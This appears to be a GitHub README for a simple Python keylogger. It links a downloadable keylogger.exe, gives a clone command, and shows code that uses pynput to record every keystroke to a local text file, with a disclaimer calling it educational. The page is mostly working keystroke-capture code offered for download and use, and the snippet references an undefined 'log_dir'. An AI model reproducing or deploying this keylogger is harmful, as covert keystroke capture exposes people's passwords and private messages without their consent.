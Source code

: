 ### keylogger
A simple keylogger made with python.It stores the letters in the text file.
### Disclaimer
Don't use this for bad purposes.Don't hack anyone this is just for educational purposes.
### Download the exe 
[Download](https://github.com/shourgamer2/keylogger/releases/download/version1.0.0/keylogger.exe) <br>
It saves the letters in text file.
### Fork this repo
```sh
git clone https://github.com/shourgamer2/keylogger
```
### Modify the code 
You need python installed in your system to modify the code
Import the needed things 
``` python
from pynput.keyboard import Key, Listener
import logging
```
Logging 
``` python 
logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')
```
Making the logger 
``` python
def on_press(key):
    logging.info(str(key))
    
with Listener(on_press=on_press) as listener:
    listener.join() 
   ```
   ### How does it work 
   It logs all the things you type in your keyboard and stores it in a text file
   
